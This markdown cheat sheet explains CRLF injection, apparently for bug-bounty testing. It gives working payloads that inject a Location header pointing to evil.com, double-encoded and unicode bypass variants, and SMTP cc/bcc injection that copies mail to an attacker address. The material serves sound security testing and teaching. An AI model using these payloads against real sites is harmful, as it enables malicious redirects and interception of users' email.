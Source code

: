 # CRLF Injection

## Introduction
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find
* It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).
* SMTP mail input

## Impact
Redirect to malicious site or leaked mail information

## How to exploit
1. Basic payload
```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/

### Response:
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

4. SMTP add Second Email
```
,
&
%20
|
%0a%0dcc:
%0a%0dbcc:
%0d%0acc:
%0d%0abcc:

#Example: Add Second Email
email=victim@mail.tld%0d%0acc:attacker@mail.tld
```

## References
* [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
* [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
